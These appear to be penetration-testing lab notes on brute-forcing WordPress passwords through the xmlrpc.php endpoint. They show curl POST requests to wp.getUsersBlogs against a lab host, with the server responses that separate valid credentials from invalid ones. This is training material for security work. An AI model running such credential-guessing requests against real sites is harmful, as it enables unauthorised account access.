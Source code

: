 ## Login
Now that we have user names we try and bruteforce passwords. This can be performed on the login page or the xmlrpc.php page.

### cURL - POST Request
A POST request to the `xml-rpc.php` page will get a response like so:
```shell-session
$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

If credentials are not valid we'll get a `403 faultCode` error.

### Invalid Credentials - 403 Forbidden
```shell-session
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>asdasd</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```
